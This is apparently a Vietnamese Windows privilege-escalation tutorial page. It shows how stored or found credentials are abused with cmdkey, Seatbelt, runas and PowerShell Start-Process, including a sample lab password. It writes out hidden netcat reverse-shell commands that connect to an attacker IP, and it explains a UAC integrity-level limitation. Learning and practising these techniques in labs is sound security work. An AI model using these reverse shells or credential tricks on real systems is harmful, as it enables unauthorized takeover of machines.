 # Thông qua thông tin xác thực được lưu trữ

Liệt kê các thông tin lưu trữ trong máy chủ: cmdkey /list

![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/1540d6a2-fc54-466e-8396-291134105a53)

Có thể thấy thông tin đăng nhập của tài khoản QTV cục bộ đã được lưu trữ trong trình quản lý thông tin xác thực và có thể được sử dụng để thự thi các lệnh
Liệt kê các thông tin xác thực được lưu trữ bằng công cụ

- WinPEAS : .\winPEASx64.exe windowscreds
  ![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/0dc32e38-a545-4e91-8c75-0e5cc5018941)

winPEAS ko tìm thấy

- Seatbelt: .\Seatbelt.exe CredEnum
  ![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/08083483-9942-49a8-96b1-48a3d87a5d1c)

Seatbelt đã lấy được thông tin như lệnh cmdkey /list

Thực thi các lệnh bằng thông tin xác thực được lưu trữ

Sau khi xác định rằng có thông tin xác thực được lưu trữ cho tài khoản quản trị viên cục bộ trên máy này, tôi có thể sử dụng những thông tin xác thực đó để thực thi các lệnh bằng runas lệnh.

NOTE: khi chạy runas nó sẽ tạo ra 1 shell khác và chạy lệnh đó nên giả sử chúng ta chạy lệnh whoami thì sẽ ko có kết quả nào được hiển thị trên shell hiện tại việc của chúng ta là phải chuyển hướng đầu ra vào 1 tệp bằng lệnh sau:

```
runas /env /noprofile /savecred /user:{TÊN} "cmd.exe /c whoami > whoami.txt"
```

![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/bb268e4a-8d51-425d-8436-6d50a95cfda9)

Từ đây ta có thể kiểm chứng được ta đang chạy với quyền admin ta ó thể tạo 1 shell với tư cách admin ta đẩy nc.exe sang và tạo reverse shell với tư cách ngưới dùng admin bằng câu lệnh

```
runas /env /noprofile /savecred /user:{TÊN} "c:\temp\nc.exe {ip attacker} 443 -e cmd.exe"
```

![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/f54afaba-fc1c-496a-a0d9-f5ec7b131d6d)

NOTE : Điều này sẽ tạo ra 1 process cmd trên máy nạn nhân và người dùng có thể dễ dàng đóng nó nên ta có thể sử dụng thêm 1 tính năng tàn hình của powershell để thực thi 1 process ẩn.

```
runas /env /noprofile /savecred /user:{TÊN} "powershell.exe -w hidden -c c:\temp\nc.exe {ip attacker} 443 -e cmd.exe"
```

# Nâng cao đặc quyền RunAs thông qua thông tin xác thực được cung cấp

Giả sử rằng khi tôi có được chỗ đứng trên nạn nhân, tôi không tìm thấy bất kỳ thông tin xác thực nào được lưu trữ bằng lệnh cmdkey /list; tuy nhiên, tôi đã tìm được thông tin xác thực của người dùng khác trong một tệp ở đâu đó trên hệ thống tệp.

Có hai tình huống mà tôi có thể nghĩ ra ngay lập tức khi điều này sẽ hữu ích:

- Tìm thông tin xác thực cho một tài khoản KHÔNG có quyền truy cập vào bất kỳ dịch vụ tiêu chuẩn nào (SMB, RDP, WinRM) và do đó, không có cách nào có thể đoán trước để đăng nhập hoặc nhận shell với tư cách là người dùng này.
- Mọi trường hợp liên quan đến tài khoản đã được thêm vào nhóm quản trị viên cục bộ và cổng 3389 (RDP) đều bị đóng.

# Thực thi các lệnh bằng thông tin xác thực được cung cấp - GUI

Từ GUI, chúng ta có thể sử dụng lệnh sau để tạo ra dấu nhắc cmd với tư cách một người dùng khác:

```
runas /env /noprofile /user:juggernaut.local\cmarko cmd
```

tôi được nhắc nhập mật khẩu và sau khi nhập thành công, dấu nhắc cmd sẽ mở ra với tư cách là người dùng mà tôi đã chỉ định.
![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/baade655-0921-4a03-86ed-41b848231ffa)

Khi ta thử nhập kèm theo mật khẩu:

```
runas /env /noprofile /user:juggernaut.local\cmarko "N0cturn@l21" cmd
```

![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/fce7ee8b-b8be-418b-95b5-c8644c8b572a)

Trang trợ giúp cho tôi biết rằng tôi chỉ có thể nhập mật khẩu của người dùng khi được nhắc.

# Thực thi các lệnh bằng thông tin xác thực được cung cấp – Reverse Shell (Người dùng chuẩn)

Khi máy mục tieu đã tắt RDP(3389) ta bắt lại shell vằ gõ 3 lệnh sau:

```
1. $secpasswd = ConvertTo-SecureString "password" -AsPlainText -Force
2. $mycreds = New-Object System.Management.Automation.PSCredential ("TÊN", $secpasswd)
3. Start-Process -FilePath powershell.exe -argumentlist "-w hidden -c C:\temp\nc.exe {ip attacker} 443 -e cmd.exe" -Credential $mycreds
```

- Biến đầu tiên là mật khẩu (trong dấu ngoặc kép).
- Biến thứ hai là gán mật khẩu cho tên người dùng.
- Dòng thứ ba là lệnh tôi muốn chạy bằng thông tin xác thực được lưu trữ.

Sau khi thực thi ta sẽ nhận được shel với tư cách người dùng
![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/bfc17ae6-b821-449f-8fba-beeb98b83f37)

# Thực thi các lệnh bằng thông tin xác thực được cung cấp – Reverse Shell (Đã thêm người dùng quản trị cục bộ)

Nếu tôi lấy được tài khoản của tài khoản nằm trong nhóm local administrator nhưng mà lại không phải là tài khoản administrator thì khi mà tôi xá thực được lưu trữ cho người dùng này thì tôi chỉ nhận được shell của người dùng chứ không phải shell của admin

Đây là kết quả của cách hoạt động của UAC. Đối với tài khoản Quản trị viên tích hợp, nếu bạn mở cmd.exe, nó sẽ mở với lời nhắc của quản trị viên theo mặc định. Tuy nhiên, nếu bạn có người dùng thuộc nhóm quản trị viên cục bộ nhưng không phải là tài khoản Quản trị viên tích hợp, để nhận được lời nhắc quản trị, bạn cần mở cmd.exe bằng “Chạy với tư cách quản trị viên”. Nếu tôi chỉ mở cmd.exe với người dùng này và không chạy nó với tư cách quản trị viên, tôi sẽ được cung cấp một lớp vỏ có tính toàn vẹn trung bình tiêu chuẩn.
![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/07b81bac-950b-4d57-ade2-9fe8b4d1b258)
![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/ca52ae81-ead9-4c6c-852e-a6669912c097)

Sau khi thực hiện các lệnh trên, chúng ta thấy rằng chúng ta đã có shell dưới dạng vcreed trên trình nghe của mình.
![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/dc8d9929-2709-4ab9-8bcc-c02a0dfb9e9a)

Tuy nhiên, khi tôi kiểm tra các đặc quyền của mình bằng whoami /priv, tôi sẽ thấy rằng tôi đang ở trong lớp vỏ có tính toàn vẹn trung bình và KHÔNG có đặc quyền của quản trị viên .
![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/0bacb352-e665-44a8-86e3-0ad67a94f369)
